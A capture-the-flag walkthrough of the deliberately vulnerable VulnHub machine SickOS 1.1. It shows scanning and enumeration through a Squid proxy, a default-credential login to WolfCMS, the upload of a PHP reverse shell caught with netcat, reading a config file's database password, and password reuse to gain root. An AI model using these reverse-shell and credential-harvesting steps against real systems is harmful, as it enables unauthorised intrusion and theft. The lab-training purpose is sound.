





# SickOS: 1.1 Walkthrough


---

If you're interested to try it out, more details here: [https://www.vulnhub.com/entry/sickos-11,132/](https://www.vulnhub.com/entry/sickos-11,132/)

> Name........: SickOs1.1  
> Objective...: Get /root/a0216ea4d51874464078c618298b1367.txt
>
> This CTF gives a clear analogy how hacking strategies can be performed on a network to compromise it in a safe environment. This vm is very similar to labs I faced in OSCP. The objective being to compromise the network/machine and gain Administrative/root privileges on them.

---

# Stage 1: Reconnaissance

Tools used:
* nmap
* curl

First of all, obligatory network scan:

```
root@kali:~# nmap -n -sV 192.168.1.100 -T4

Starting Nmap 7.40 ( https://nmap.org ) at xxxx-xx-xx xx:xx EDT
Nmap scan report for 192.168.1.100
Host is up (0.00029s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 5.9p1 Debian 5ubuntu1.1 (Ubuntu Linux; protocol 2.0)
3128/tcp open   http-proxy Squid http proxy 3.1.19
8080/tcp closed http-proxy
MAC Address: 08:00:27:0D:45:FC (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.75 seconds
```

---

# Stage 2: Enumeration

Tools used:
* curl
* nikto
* dirb

When I did a `curl http://192.168.1.100:3128`, this is what I got:

```
// output truncated

<body id=ERR_INVALID_URL>
<div id="titles">
<h1>ERROR</h1>
<h2>The requested URL could not be retrieved</h2>
</div>
<hr>

<div id="content">
<p>The following error was encountered while trying to retrieve the URL: <a href="/">/</a></p>

<blockquote id="error">
<p><b>Invalid URL</b></p>
</blockquote>

<p>Some aspect of the requested URL is incorrect.</p>

<p>Some possible problems are:</p>
<ul>
<li><p>Missing or incorrect access protocol (should be <q>http://</q> or similar)</p></li>
<li><p>Missing hostname</p></li>
<li><p>Illegal double-escape in the URL-Path</p></li>
<li><p>Illegal character in hostname; underscores are not allowed.</p></li>
</ul>

// output truncated
```

We reached a squid proxy on port 3128. Trying to access port 8080 gives us a connection refused error. Let's set the proxy.

```
root@kali:~# curl http://192.168.1.100 -x http://192.168.1.100:3128
<h1>
BLEHHH!!!
</h1>

root@kali:~# dirb http://192.168.1.100 -p http://192.168.1.100:3128 | grep "CODE:200"
+ http://192.168.1.100/connect (CODE:200|SIZE:109)                                   
+ http://192.168.1.100/index (CODE:200|SIZE:21)                                      
+ http://192.168.1.100/index.php (CODE:200|SIZE:21)                                  
+ http://192.168.1.100/robots (CODE:200|SIZE:45)                                     
+ http://192.168.1.100/robots.txt (CODE:200|SIZE:45)

root@kali:~# nikto -host 192.168.100.14 -useproxy 192.168.100.14:3128
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.1.100
+ Target Hostname:    192.168.1.100
+ Target Port:        80
+ Proxy:              192.168.1.100:3128
+ Start Time:         xxxx-xx-xx xx:xx:xx (GMT)
---------------------------------------------------------------------------
+ Server: Apache/2.2.22 (Ubuntu)
+ Retrieved via header: 1.0 localhost (squid/3.1.19)
+ Retrieved x-powered-by header: PHP/5.3.10-1ubuntu3.21
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ Uncommon header 'x-cache' found, with contents: MISS from localhost
+ Uncommon header 'x-cache-lookup' found, with contents: MISS from localhost:3128
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Server leaks inodes via ETags, header found with file /robots.txt, inode: 265381, size: 45, mtime: Fri Dec  4 19:35:02 2015
+ Server banner has changed from 'Apache/2.2.22 (Ubuntu)' to 'squid/3.1.19' which may suggest a WAF, load balancer or proxy is in place
+ Uncommon header 'x-squid-error' found, with contents: ERR_INVALID_REQ 0
+ Apache/2.2.22 appears to be outdated (current is at least Apache/2.4.12). Apache 2.0.65 (final release) and 2.2.29 are also current.
+ Uncommon header 'tcn' found, with contents: list
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.php
+ Uncommon header 'nikto-added-cve-2014-6271' found, with contents: true
+ OSVDB-112004: /cgi-bin/status: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).
+ OSVDB-112004: /cgi-bin/status: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6278).
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-12184: /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F36-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F34-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F35-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-3233: /icons/README: Apache default file found.
+ 8347 requests: 0 error(s) and 21 item(s) reported on remote host
+ End Time:           xxxx-xx-xx xx:xx:xx (GMT) (25 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

root@kali:~# curl http://192.168.100.14/robots.txt -x http://192.168.100.14:3128
User-agent: *
Disallow: /
Dissalow: /wolfcms

root@kali:~# curl http://192.168.1.100/connect -x http://192.168.1.100:3128
#!/usr/bin/python

print "I Try to connect things very frequently\n"
print "You may want to try my services"
```

nikto tells us that the server is vulnerable to shellshock! So there's a point of entry, but it wouldn't be fair to this old VM if I gained a shell this way. Let's find another entry. `/connect` gives us a python script that might be a hint to our initial access. `robots.txt` reveals a `/wolfcms` page. Let us view this on firefox:



---

# Stage 3: Exploitation

Tools used:
* netcat
* php-reverse-shell.php

Some Googling revealed a login page on `http://192.168.1.100/wolfcms/?/admin/login`. Without thinking, I accidentally typed in 'admin' as username and password, and it turns out that the credentials are valid!





At the footer, the website tells us that the version of WolfCMS is `0.8.2`. More quick Googling tells us that this version is vulnerable to an arbitrary file upload vulnerability! Let us upload a PHP reverse shell:





Now we just have to access it in /public as all uploaded files are sent there:

```
root@kali:~# curl http://192.168.100.14/wolfcms/public/php-reverse-shell.php -x http://192.168.100.14:3128

// In another terminal

root@kali:~# nc -nlvp 1234
listening on [any] 1234 ...
connect to [192.168.100.12] from (UNKNOWN) [192.168.100.14] 58301
Linux SickOs 3.11.0-15-generic #25~precise1-Ubuntu SMP xxx xxx xx xx:xx:xx UTC xxxx i686 i686 i386 GNU/Linux
 xx:xx:xx up 43 min,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c "import pty;pty.spawn('/bin/bash')"
www-data@SickOs:/$
```

Getting a pseudo-tty bash shell, we then proceed to find available users on the system that we can interact with:

```
www-data@SickOs:/$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
sickos:x:1000:1000:sickos,,,:/home/sickos:/bin/bash
```

Only root and sickos are users with valid bash shells. Let us find out more.

```
www-data@SickOs:/var/www/wolfcms$ cat config.php
<?php 

// Database information:
// for SQLite, use sqlite:/tmp/wolf.db (SQLite 3)
// The path can only be absolute path or :memory:
// For more info look at: www.php.net/pdo

// Database settings:
define('DB_DSN', 'mysql:dbname=wolf;host=localhost;port=3306');
define('DB_USER', 'root');
define('DB_PASS', 'john@123');
define('TABLE_PREFIX', '');

// output truncated
```

Reading the config.php file of wolfcms reveals to us the username and password for the DB. I smell some password reuse?

```
www-data@SickOs:/var/www/wolfcms$ su - sickos
Password: john@123

sickos@SickOs:~$ sudo -l
[sudo] password for sickos: john@123

Matching Defaults entries for sickos on this host:
    env_reset,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sickos may run the following commands on this host:
    (ALL : ALL) ALL
sickos@SickOs:~$ sudo su - root

root@SickOs:~# cat /root/a0216ea4d51874464078c618298b1367.txt 
If you are viewing this!!

ROOT!

You have Succesfully completed SickOS1.1.
Thanks for Trying
```

One of the easiest way to get root, password reuse + `sudo -l` with ALL root privileges. Challenge completed!

---

# Afterthoughts

The SickOs series was supposed to be inspired by the OSCP labs, and thus focused more on the basics of reconnaissance, enumeration and exploitation. Not so much was focused on kernel privilege exploitation and quirky/funny ways of gaining access and privilege. An overall good beginner friendly VM to be recommended to anyone starting out.